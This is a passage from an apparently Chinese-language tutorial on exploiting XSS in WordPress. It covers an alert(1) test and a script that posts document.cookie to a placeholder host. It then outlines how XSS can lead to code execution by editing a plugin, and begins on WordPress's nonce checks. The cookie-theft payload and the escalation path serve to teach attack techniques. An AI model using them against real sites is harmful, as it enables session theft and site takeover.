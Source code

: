 我们插入的`<script>alert(1)</script>`被当作正常的js代码执行了

让我们回到之前的测试环境中

![image.png-111.6kB][3]

我们可以通过一个漏洞点执行我们想要的js代码。

## 盗取Cookie

在一般的通用cms下呢，为了通用模板的兼容性，cms本身不会使用CSP等其他手段来防护xss漏洞，而是使用自建的过滤函数来处理，在这种情况下，一旦出现xss漏洞，我们就可以直接使用xhr来传输cookie。

简单的demo如下
```
<script>
var xml = new XMLHttpRequest(); 
xml.open('POST', 'http://xxxx', true); 
xml.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xml.send('cookie='+document.cookie)
</script>
```

这里我们可以直接使用xhr来传递cookie，但可惜的是，由于wordpress的身份验证cookie是httponly，我们无法使用简单的`documen.cookie`来获取cookie。
![image.png-28.1kB][4]

但无情的是，我们可以通过和别的问题配合来解决这个问题。在这之前，我们先来回顾一种在brutelogic的ppt中提到的xss2rce的利用方式。

通过这其中的思路，我们可以在整个wordpress站点中执行我们想要的任何攻击。

## Xss to Rce

在wordpress的后台，有一个编辑插件的功能，通过这个功能，我们可以直接修改后台插件文件夹的任何内容。

而在默认下载的Wordpress中，都会包含Hello Dolly插件，通过修改这个插件内容并启动插件，我们可以执行想要的任何代码。

但在这之前，我们首先要了解一下，wordpress关于csrf的防御机制，在wordpress中引入了`_wpnonce`作为判断请求来源的参数。

在一般涉及到修改更新等操作的时候，会调用`check_admin_referer()`函数来判断传入的wpnonce是否和该操作计算的nonce值相等，后台部分代码如下：

```
function wp_verify_nonce( $nonce, $action = -1 ) {
	$nonce = (string) $nonce;
	$user = wp_get_current_user();
	$uid = (int) $user->ID;
	if ( ! $uid ) {
		/**
		 * Filters whether the user who generated the nonce is logged out.
		 *
		 * @since 3.5.0
		 *
		 * @param int    $uid    ID of the nonce-owning user.
		 * @param string $action The nonce action.
		 */
		$uid = apply_filters( 'nonce_user_logged_out', $uid, $action );
	}

	if ( empty( $nonce ) ) {
		return false;
	}

	$token = wp_get_session_token();
	$i = wp_nonce_tick();

	// Nonce generated 0-12 hours ago
	$expected = substr( wp_hash( $i . '|' . $action . '|' . $uid . '|' . $token, 'nonce'), -12, 10 );
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png